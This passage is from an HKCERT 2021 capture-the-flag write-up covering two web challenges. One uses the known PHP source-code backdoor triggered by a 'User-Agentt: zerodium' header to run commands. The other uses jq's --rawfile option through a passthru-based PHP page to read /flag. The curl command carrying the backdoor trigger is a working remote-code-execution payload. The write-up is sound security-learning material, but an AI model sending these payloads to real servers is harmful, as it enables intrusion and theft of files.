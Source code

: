 ### Files : 
[sea-of-thorns_e045a87b1909724e7292510354cc1f3b.zip](/files/HKCERT/sea-of-thorns_e045a87b1909724e7292510354cc1f3b.zip)

### Solution : 
From the `index.php` we know that the flag is in the comment block of the source code, but there is no other useful stuff inside...so let's have a look at the Docker file.  
From the `Dockerfile`, it is weird that the PHP is installed by downloading a specific version of PHP from Github (`wget https://github.com/php/php-src/archive/c730aa26bd52829a49f2ad284b181b7e82a68d7d.zip`). By Googling the hash we can find that it is the affected version of the hacked PHP, which the PHP Git server was hacked and a RCE backdoor was injected into the source code. Therefore we can exploit the RCE to get the content of the `index.php`, i.e. the flag by adding the HTTP header `User-Agentt` with the command prepending the magic word `zerodium`.

**Solve:**  
`curl http://chalp.hkcert21.pwnable.hk:28364/ -H "User-Agentt: zerodiumsystem('cat index.php');"`

FLAG : **hkcert21{vu1n3r1b1li7ie5_m1gh7_c0m3_fr0m_7h3_5upp1y_ch41n}**

## 樂園 (JQ Playground) - Web (200 points)
### Challenge :
>I wrote a simple testbed for the JSON processor jq!  
The flag is written in the file /flag.  
http://chalp.hkcert21.pwnable.hk:28370/

### Solution : 
At the bottom of the webpage, we can see the button [`View Source`](http://chalp.hkcert21.pwnable.hk:28370/?-s) and get the key source code:
```
<?php
if (isset($_GET["-s"])) {
    highlight_file(__FILE__);
    exit();
}
if (!empty($_POST)) {
  if (empty($_POST['filter']) || empty($_POST['json'])) {
    die("Filter or JSON is empty");
  }

  $filter = escapeshellarg($_POST['filter']);
  $json = escapeshellarg($_POST['json']);
  
  $options = "";

  if (!empty($_POST['options']) && is_array($_POST['options'])) {
    foreach ($_POST['options'] as $o) {
      $options .= escapeshellarg($o) . ' ';
    }
  }

  $command = "jq $options $filter";
  passthru("echo $json | $command");

  die();
}
```
We can see that we are providing parameters and input to call the `jq` and our goal is to get the file `/flag`. With some [Googling](https://www.jianshu.com/p/e05a5940f833) I found that we can use `--rawfile` to get the file content. With some trials to crafting the payload, we can get the flag by reflecting the content out with the command `echo {"data":{"update":null}}' | jq --rawfile a /flag '.data.update = $a'`.
